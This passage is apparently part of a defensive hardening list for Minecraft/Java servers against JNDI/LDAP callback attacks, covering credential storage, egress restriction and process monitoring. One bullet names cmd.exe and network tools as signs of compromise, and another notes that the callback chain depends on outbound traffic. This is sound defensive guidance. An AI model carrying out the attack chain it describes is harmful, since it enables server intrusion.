- Remove hard-coded credentials from plugins; prefer secure secret storage and least-privilege service accounts.
- Restrict outbound connectivity from game servers where possible (JNDI/LDAP callback chains rely on egress).
- Monitor for suspicious child processes from the Minecraft/Java service account (`cmd.exe`, unexpected network tools).
